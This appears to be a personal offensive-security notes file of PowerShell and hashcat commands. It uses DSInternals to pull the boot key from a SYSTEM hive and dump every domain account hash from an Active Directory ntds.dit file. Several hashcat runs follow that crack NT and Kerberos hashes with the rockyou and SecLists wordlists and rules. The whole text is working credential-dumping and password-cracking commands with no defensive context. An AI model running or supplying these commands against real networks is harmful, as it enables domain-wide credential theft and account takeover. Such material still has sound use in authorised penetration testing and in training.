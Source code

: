 #https://www.dsinternals.com/en/
#https://attack.stealthbits.com/ntds-dit-security-active-directory

```powershell
Compress-Archive -Path C:\Users\Public\Downloads\poon -DestinationPath C:\Users\Public\Downloads\poon.zip
```


#Install-Module DSInternals -Force

```powershell
Import-Module DSInternals
$Key = Get-BootKey -SystemHiveFilePath C:\Users\p4yl0ad\Desktop\AD\poon\registry\SYSTEM
 
Get-ADDBAccount -BootKey $Key -DatabasePath 'C:\Users\p4yl0ad\Desktop\AD\poon\Active Directory\ntds.dit' -All |
  Format-Custom -View HashcatNT | 
  Out-File C:\Users\p4yl0ad\Desktop\AD\poon\Hashdump.txt
 ```
hashcat -m 1000 -a 0 Hashdump.txt -o Cracked.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

hashcat -m 1000 -a 0 Hashdump.txt -o Cracked-otrta.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt -r /usr/share/hashcat/rules/otrta.rule

hashcat -m 1000 -a 3 --custom-charset1=?l?d?u --username -o cracked.txt .\Hashdump.txt ?1?1?1?1?1?1?1?1


**Ran out of options:**
```
hashcat -m 13100 -a 0 --outfile hashnamecracked.txt hash.txt /opt/SecLists/Passwords/*.txt --force -r /usr/share/hashcat/rules/best64.rule
```


```
 hashcat -m 1000 -a 0 -O -w 3 --outfile cracked-hashes.txt hashes.txt /opt/SecLists/Passwords/Leaked-Databases/*.txt --force -r /usr/share/hashcat/rules/best64.rule
```

```
 hashcat -m 1000 -a 0 -O -w 3 --outfile cracked-hashes.txt hashes.txt /opt/SecLists/Passwords/*.txt --force -r /usr/share/hashcat/rules/otrta.rule
```
